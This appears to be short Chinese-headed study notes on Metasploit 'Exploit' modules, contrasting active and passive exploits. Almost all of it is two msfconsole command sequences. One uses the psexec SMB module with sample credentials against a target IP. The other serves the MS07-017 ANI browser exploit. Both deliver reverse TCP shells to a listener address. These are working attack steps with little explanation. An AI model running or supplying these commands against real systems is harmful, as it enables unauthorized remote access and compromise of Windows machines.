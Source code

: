 

# Exploit模块

* Active exploit　

* Passive exploit


## Active exploit　

``` 
// msfconsole
use exploit/windows/smb/psexec
set RHOST 192.168.1.100
set PAYLOAD windows/shell/reverse_tcp
set LHOST 192.168.1.1
set LPORT 4444
set SMBUSER user1
set SMBPASS pass1
exploit
```

## Passive exploit
``` 
// msfconsole
use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
set URIPATH /
set PAYLOAD windows/shell/reverse_tcp
set LHOST 192.168.1.1
set LPORT 4444
exploit
```



